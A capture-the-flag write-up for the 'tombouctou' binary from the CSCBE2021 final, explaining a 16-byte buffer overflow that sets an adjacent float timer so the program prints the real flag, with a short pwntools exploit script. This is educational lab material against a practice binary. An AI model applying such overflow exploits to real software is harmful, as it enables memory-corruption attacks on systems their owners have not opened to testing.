

This challenge was given during the final of CSCBE2021. I found it back on a hard drive and decided to solve it 2 years later. 

As the instance is not up anymore, I solved it locally by creating an environment variable called FLAG in my linux machine. 

First, let's open the binary in ghidra to analyze the code (it has already been cleaned up and renames for simplicity) : 



As we can see, we have two interesting variables 

- A vulnerable input of 16 bytes
- A (float) counter, initially set to 0.01

The software behaves as following

1. The program checks if counter is smaller than 2.5 seconds
2. It creates two threads : one setting in memory the wrong flag and sleeping for counter seconds before redoing it 
3. It waits 1 second before setting the right flag in memory
4. It waits the user to press enter before printing the flag which is at this moment in memory

So the plan is the following 

1. Overflow counter to 2.0 seconds. 2 seconds correspond to 0x40000000 in hex. 
2. Wait at least one second but less than 2 seconds to press enter
3. Grab the flag

The exploit is thus the following :

```python 
from pwn import *
import time

p = process("./tombouctou")

payload = b"A" * 16  
payload += p32(0x40000000)  #2.0 (float) seconds in hex is 0x40000000
p.sendlineafter(b"Enter you name: ", payload)

# Waiting between 1 and 2 secondes
time.sleep(1.4)

# Sending enter
p.sendline("")

response = p.recvall()
print(response)

```

